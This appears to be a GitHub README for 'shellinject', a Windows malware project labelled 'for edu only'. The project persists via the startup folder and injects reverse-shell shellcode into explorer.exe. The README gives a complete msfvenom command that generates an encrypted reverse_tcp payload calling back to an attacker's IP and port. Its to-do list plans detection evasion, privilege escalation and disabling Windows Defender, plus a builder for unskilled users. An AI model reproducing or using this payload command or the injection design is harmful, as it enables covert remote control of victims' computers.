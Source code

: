 # shellinject for edu  ONLY!



code explain the code is writing itself to windows startup then it finding the pid of explorer.exe 
and injecting shell code in my example its reverse_shell + ONWORK builder to change the shell code and exec name and more in the future

------------------------------------------------------------------------------------


before use change the shellcode to your shellcode you can generate it useing msfvenom 
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
working on builder that take the shell code from txt file


for example ```msfvenom --platform windows --arch x64 EXITFUNC=thread -p windows/x64/shell/reverse_tcp_rc4 LHOST=YOURE_IP LPORT=YOURE_PORT RC4PASSWORD=YOURE_PASS EXITFUNC=thread -f c --var-name=ucReverseShell```
copy it to here  
![Screenshot (8)](https://github.com/masterconi/shellinject/assets/85493153/d8ef7109-650f-40f0-af7f-aad2e9be4628)


-------------------------------------------------------------------------------------

plus you can change the executeble to be injected in here :
![Screenshot (9)](https://github.com/masterconi/shellinject/assets/85493153/02713da7-7695-45b3-9ef7-bed1fbe6e6c4)

------------------------------------------------------


to build the repo try to do it with ms_vs or g++  


i am working on a builder using gcc/g++ you can check it by the name builder.cpp/exe


i curently working in microsoft visual studio with builtin compiler and got some errors when compiling in g++


----------------------------------------------------

why i did it ?

i have nothin to do at holidays :-D

--------------------------------------------------------
TODO : make hard to detect , make the shell code encrypted ,  make readme.md more beautiful (✿◡‿◡) ,make the shell code inject "vir.dll" 


ON_WORKrn: add priv esc ,disable windows defender :) , make a builder for script_kids (like you yes you the one how reading it)（￣︶￣）


i would be happy to get help thanks

----------------------------------------------------------------------------

why the code so shity : 1:becouse i make it in my free time and i am to lazy for makeing it beautiful ,2: shutup scrypt_kiddie


